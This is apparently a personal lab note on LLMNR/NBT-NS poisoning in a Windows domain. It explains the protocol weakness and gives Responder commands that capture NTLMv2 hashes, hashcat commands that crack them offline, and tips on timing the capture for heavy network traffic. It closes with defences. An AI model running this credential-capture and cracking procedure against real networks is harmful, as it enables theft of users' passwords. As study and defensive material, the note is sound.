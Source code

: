# LLMNR Poisoning | MITM

## What is LLMNR | Responder

> [LLMNR/NBT-NS Poisoning on Windows Domain Environments | Predatech](https://predatech.co.uk/llmnr-nbt-ns-poisoning-windows-domain-environments/)

Used to identity host when DNS fails to do so.

When we respond to this service, it responds back to us with a **username** and a **password hash**

- Previously NBT-NS

- Key flaw is that the service utilize a user’s username and NTLMv2 hash when appropriately responded to.

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are two name resolution services that Windows machines use to identify host addresses on a network when DNS resolution fails. LLMNR and NetBIOS are enabled by default on modern Windows computers.

1. Check if the name resolves to the computer itself (localhost).

2. Check to see if the name is in the cache or manually specified in the system’s hosts file (C:\Windows\System32\drivers\etc\**hosts**

3. Send a lookup request to the configured DNS server.

4. Broadcast an LLMNR name query to all machines on the local network.

5. Broadcast an NBT-NS name query request to all machines on the local network.

6. The LLMNR and NBT-NS queries will be sent to all other hosts on the local network asking them to respond if they know the IP of the hostname being queried. Attackers can exploit this and will respond with their own IP address to direct subsequent network traffic for the requested resource to their machine.

![Untitled.png](C:\Users\jonne\Documents\PDF\pdfs\LLMNR%20Poisoning%20MITM%20710337978ef845858bd8ddf37d19c90d\Untitled.png)

## Step 1: Run Responder | python [Responder.py](http://Responder.py) -l tun0 -rdw

- -i stands for interface which should be eth0

Responder - responds to request | sit there and listen | Best time to run is first thing in the **morning** or **right after lunch**. | **You need a lot of traffic.** | MITM listening | Waiting

## Step 2: An event occurs

## Step 3: Hashes acquired

## Step 4: Hash cracking with hashcat | If passwords are weak | >14 Chars

```shell
hashcat -m 5600 hashes.txt rockyou.txt (or which ever wordlist)
```

# Demonstration

Run responder

```
responder -I eth0 -rdwv
```

![Untitled 1.png](C:\Users\jonne\Documents\PDF\pdfs\LLMNR%20Poisoning%20MITM%20710337978ef845858bd8ddf37d19c90d\Untitled%201.png)

![Untitled 2.png](C:\Users\jonne\Documents\PDF\pdfs\LLMNR%20Poisoning%20MITM%20710337978ef845858bd8ddf37d19c90d\Untitled%202.png)

Responder is running and listening

![Untitled 3.png](C:\Users\jonne\Documents\PDF\pdfs\LLMNR%20Poisoning%20MITM%20710337978ef845858bd8ddf37d19c90d\Untitled%203.png)

![Untitled 4.png](C:\Users\jonne\Documents\PDF\pdfs\LLMNR%20Poisoning%20MITM%20710337978ef845858bd8ddf37d19c90d\Untitled%204.png)

AD DS and workstation both running.

Point workstation to attack machineIP 

```shell
\\x.x.x.x
```

![Untitled 5.png](C:\Users\jonne\Documents\PDF\pdfs\LLMNR%20Poisoning%20MITM%20710337978ef845858bd8ddf37d19c90d\Untitled%205.png)

Hashes pulled | Take offline and attempt to crack.

# Hashcat

Hashcat is a password recovery tool

Need to find which module to use for hashcat.

```shell
hashcat --help | grep NTLM
```

![Untitled 6.png](C:\Users\jonne\Documents\PDF\pdfs\LLMNR%20Poisoning%20MITM%20710337978ef845858bd8ddf37d19c90d\Untitled%206.png)

I saved this hash in my main OS which has hashcat installed. I have a RTX 2080 so this crack should go pretty fast.

![Untitled 9.png](C:\Users\jonne\Documents\PDF\pdfs\LLMNR%20Poisoning%20MITM%20710337978ef845858bd8ddf37d19c90d\Untitled%209.png)

Change drives and CD to where hashcat is.

```shell
hashcast-6.2.4>hashcat64.exe -m 5600 ntlmhash.txt rockyou.txt -O
```

![Untitled 10.png](C:\Users\jonne\Documents\PDF\pdfs\LLMNR%20Poisoning%20MITM%20710337978ef845858bd8ddf37d19c90d\Untitled%2010.png)

- The -O stands for optimize

![InkedUntitled 12_LI.jpg](C:\Users\jonne\Documents\PDF\pdfs\LLMNR%20Poisoning%20MITM%20710337978ef845858bd8ddf37d19c90d\InkedUntitled%2012_LI.jpg)

H**ashcat has tried every possible password combination in the attack you have provided**, and failed to crack 100% of all hashes given. In other words, hashcat
has finished doing everything you told it to do – **it has exhausted** its
search to crack the hashes.

Need another wordlist

The next attempt worked but I honestly had to add the passwords in myself. 
Rockyou.txt did not work and the wordlists from seclist either. I need 
to get better wordlists. It is a good thing this happened because it 
lets me know I need better wordlists.

# Defense to LLMNR Poisoning

The best defense is to **disable** LLMNR and NBT-NS

- To disable LLMNR select “Turn off Mutlicast Name Resolution” under Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor

- To disable NBT-NS, navigate to network connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > Wins tab and select “Disable NetBIOS over TCP/IP”.

Some companies must use or cannot disable LLMNR/NBT-NS, the best course of action is to

- Require Network Access Control (NAC)

- Require strong passwords (Ex: >14 Chars in length and limit common word usage). The more complex and long, the harder it is for an attacker to crack the hash. Make it as hard as possible. Prevent | Stall.

- Stress how easy it is to crack passwords.

